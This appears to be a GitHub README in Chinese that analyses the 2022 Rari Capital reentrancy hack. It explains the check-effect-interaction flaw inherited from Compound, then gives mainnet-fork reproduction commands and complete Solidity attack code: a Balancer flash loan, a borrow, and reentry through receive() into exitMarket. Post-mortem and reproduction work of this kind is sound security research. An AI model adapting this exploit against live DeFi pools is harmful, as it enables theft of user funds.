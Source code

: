# Rari_Fei_Vul_Poc
Rari Capital 攻击事件的 分析和复现 

### 写在前面的废话

4月30日, `Rari Capital`的几个借贷池遭受闪电贷重入攻击, 约受损8000万美金.

漏洞原理与去年我分析过的`Cream 第四次被黑`类似, 但攻击方式更加优雅, 故有此文.

### 漏洞起因: Compound起的坏头

老牌Defi借贷项目`Compound`在代码实现上存在兼容性问题, 没有遵循`check-effect-interaction`原则, 简单用人话翻译就是, 针对借贷场景,没有做到`先记账, 再转账` 

```
https://github.com/compound-finance/compound-protocol/blob/ae4388e780a8d596d97619d9704a931a2752c2bc/contracts/CToken.sol#L786
```

![image](https://user-images.githubusercontent.com/33406415/168264773-32e9f54d-6e8e-434c-90b9-a7c575814a7d.png)



在大部分情况下, 这个逻辑没问题, 但是如果用户借贷的资产为带类似钩子函数的`Token`,就会引发重入的风险, 攻击者可以在记账之前进行预期之外的恶意操作, 对项目造成大量损失.

当然在`Compound`开发之初, 可能还没有`check-effect-interaction`这个说法, 所以我们不能责备他们太多, 而且他们自己非常清楚代码的缺陷, 所以在运营上一直避免引入不兼容的加密资产.

然而仿盘们心里并没有这个哔数.

以去年的`Cream`为例:

![image](https://user-images.githubusercontent.com/33406415/168264788-edd9600e-7692-4db1-aada-5aafa67c0a66.png)


其实去年在分析`Cream`的时候, 我以为只会是孤例, 因为漏洞诞生于2个项目的错误拼接, 触发条件苛刻, 而且`Cream`上亿美金的损失会给开发者一个长足的教训.

然而现实远非我的预料, 3月的`Hundred Finance`, `VOLTAGE FINANCE`. 
不到一年时间, 仿盘们以各种姿势, 前赴后继踏入同一条河流.


### 新的漏洞触发姿势

`Rari`虽然吸取了前人的教训,没有引入不兼容的Token, 但是自己作死, 在`CEther`合约中使用了`call.value`来进行`ETH`的转账.
首次在不借助合作伙伴的情况下, 自主独立创造了漏洞环境.

```
https://etherscan.io/address/0xd77e28a1b9a9cfe1fc2eee70e391c05d25853cbf#code
```

![image](https://user-images.githubusercontent.com/33406415/168264813-bc11e823-fe35-4de4-b9bd-b453e8ae65a1.png)


### 更优雅的攻击方式

以往仿盘们的攻击者, 虽然通过重入借贷了2次,但只能选择把原始质押资产留在池子里.
所以单次攻击最大获利为 70% + 70% - 100% = 40%


而这次攻击者虽然只有一次借贷, 但是自己原始的质押资产全身而退, 约等于白嫖了属于是.

![image](https://user-images.githubusercontent.com/33406415/168264843-d036f4d6-b8d1-4b47-8ffb-03afad810d01.png)


### 重入锁的局限性

`nonreentrant`可以有效的抵御单一合约在单一transaction中的重入风险.
但是对于由多合约构造的复杂应用, 重入锁并不能起到足够的作用.
A合约的a函数和B合约的b函数即使都加了重入锁，攻击者依然可以通过A合约的a函数去重入B合约的b函数. 


### 仿盘的自我修养

近一年的时间里, 仿盘们或浑然不知, 或修修补补, 有的项目方给几乎所有核心函数增加`nonReentrant`防重入锁, 以为万事大吉.
但是依然没有遵循`check-effect-interaction`原则, 治标不治本, 其实改一下代码顺序就可以....

例如记吃记打的`Cream`在后续更新版本中, 就更改了转账和记账的顺序

```
https://etherscan.io/address/0x28192abdb1d6079767ab3730051c7f9ded06fe46#code
```

![image](https://user-images.githubusercontent.com/33406415/168264863-e01bfa2d-a96b-4c13-9bdd-741f59802444.png)





### 复现方法

```
git clone https://github.com/W2Ning/Rari_Fei_Vul_Poc.git && cd Rari_Fei_Vul_Poc
```

```
forge test -vvv 
--fork-url https://eth-mainnet.g.alchemy.com/v2/MY-API 
--fork-block-number 14684813
```

<img width="600" alt="image" src="https://user-images.githubusercontent.com/33406415/168168303-d6fadeb3-c983-46f1-bb58-61e31c554eab.png">




### 核心攻击代码

```js
    function test() public{

        // 前置准备操作1: 查看 fETH_127 中有多少ETH可以借  
        emit log_named_uint("ETH Balance of fETH_127 before borrowing",address(fETH_127).balance/1e18);

        // 前置准备操作2: 因为forge的测试地址上本身有很多的ETH 
        // 所以先把他们都转走, 方便查看攻击所得ETH数量
        payable(address(0)).transfer(address(this).balance);

        emit log_named_uint("ETH Balance after sending to blackHole",address(this).balance);

        // 第一步, 从balancer中通过闪电贷借1500万的USDC
        // 攻击者其实借了1.5亿, 但其实1500万就可以
        // 但是balancer的闪电贷是不收手续费的, 所以借多少都无所谓

        address[] memory tokens = new address[](1);

        tokens[0] = address(usdc);

        uint[] memory amounts = new uint[](1);

        amounts[0] =  150000000*10**6;

        vault.flashLoan(address(this), tokens, amounts, '');

    }

    function receiveFlashLoan(
        IERC20[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    )
        external
    {
        // 没有下面四行会有恶心的warning
        tokens;
        amounts;
        feeAmounts;
        userData;
        // 查看是否成功借到了1500万的USDC

        uint usdc_balance = usdc.balanceOf(address(this));
        emit log_named_uint("Borrow USDC from balancer",usdc_balance);

        // 第二步, 调用fusdc_127的mint函数, 
        // 完成usdc的质押操作

        usdc.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.accrueInterest();

        fusdc_127.mint(15000000000000);

        uint fETH_Balance = fETH_127.balanceOf(address(this));

        emit log_named_uint("fETH Balance after minting",fETH_Balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after minting",usdc_balance);

        // 第三步, 调用 Unitroller 的 enterMarkets函数

        address[] memory ctokens = new address[](1);

        ctokens[0] =  address(fusdc_127);

        rari_Comptroller.enterMarkets(ctokens);

        // 第四步, fETH_127 的borrow函数, 借1977个ETH

        fETH_127.borrow(1977 ether);

        emit log_named_uint("ETH Balance of fETH_127_Pool after borrowing",address(fETH_127).balance/1e18);

        emit log_named_uint("ETH Balance of me after borrowing",address(this).balance/1e18);

        usdc_balance = usdc.balanceOf(address(this));

        fusdc_127.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.redeemUnderlying(15000000000000);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after borrowing",usdc_balance);

        // 第五步, 把1500万的USDC还给balancer

        usdc.transfer(address(vault), usdc_balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after repayying",usdc_balance);
    }


    receive() external payable {

        rari_Comptroller.exitMarket(address(fusdc_127));

    }

```

